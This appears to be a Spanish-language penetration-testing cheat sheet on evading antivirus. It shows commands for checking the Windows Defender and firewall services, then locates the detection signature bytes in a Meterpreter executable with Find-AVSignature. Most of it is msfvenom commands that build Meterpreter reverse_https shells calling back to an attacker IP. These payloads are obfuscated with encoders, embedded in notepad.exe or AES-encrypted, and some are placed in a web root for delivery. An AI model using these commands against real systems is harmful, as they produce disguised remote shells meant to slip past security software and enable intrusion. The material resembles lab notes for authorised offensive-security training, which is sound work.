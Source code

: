 #### Windows Defender
##### Verificar que se esta ejecutando
```
powershell -c "Get-Service -Name windefend"
sc query windefend
```
 
 ##### Verificar proteccion de firewall
```
powershell -c "Get-Service -Name mpssvc"
sc query mpssvc
```

----

Instalacion de AV avira y ClamAV
Modulo Find-AVSignature.ps1

#### Localización de firmas en archivos
```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
> Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
Find-AVSignature -StartByte 18800 -EndByte 18900 -Interval 10 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
```

#### Metasploit encoders
```
msfvenom --list encoders
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -f exe -o /var/www/html/met64.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -f exe -o met64_zutto.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

#### Cifradores Metasploit
```
msfvenom --list encrypt
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
```
